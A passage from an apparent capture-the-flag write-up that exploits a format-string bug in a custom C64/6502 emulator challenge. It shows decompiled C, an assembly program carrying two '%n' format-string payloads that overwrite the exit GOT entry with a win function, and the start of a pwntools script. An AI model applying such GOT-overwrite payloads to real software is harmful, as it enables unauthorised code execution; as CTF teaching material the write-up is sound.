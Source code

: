 Now we just take the decimal values of the exit address and win address and write at those offsets in 2 stages. We do this to prevent internal printf positional error. 
Exit is called in the panic function. In the vulnerable function if we call the opcode without any valid value it calls the panic function:

```c
  if (cVar2 == 31) {
    do {
      invalidInstructionException();
    } while( true );
  }
  if (cVar2 == 32) {
    printf(&DAT_0040b928 + (int)(uint)CONCAT11(DAT_0040b923,DAT_0040b924));
  }
  else {
    panic();
  }
```

So we can make this assembly program:

```
* = $c000; Sets the base address to 0xc000
jmp start

payload .ASCII "%4239512c%18$n"  ; Exit GOT address, Write to the 18th position on stack. 18 position points to the 542th position. 
        .BYTE 0
payload2 .ASCII "%4199014c%542$n" ; Overwrite exit got with the win function
         .BYTE 0

start	
		jsr		stage1
		jsr		stage2
stage1	
		ldx		#>payload
		ldy		#<payload
		.word   0 ; We will patch this later with int #32. int isn't a normal opcode in c64. In this opcode it takes input etc.. In this challenge there is a format string here if we call it with 32 as hex value. 

		rts

stage2
		ldx		#>payload
		ldy		#<payload2
		.word   0 ; We will patch this later with int #32

		.word	0 ; We will patch this later with int #100. This will call the panic function. In that function it calls exit
```
We patch the zero bytes with the custom opcode and the needed values.

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
'''.format(**locals())
```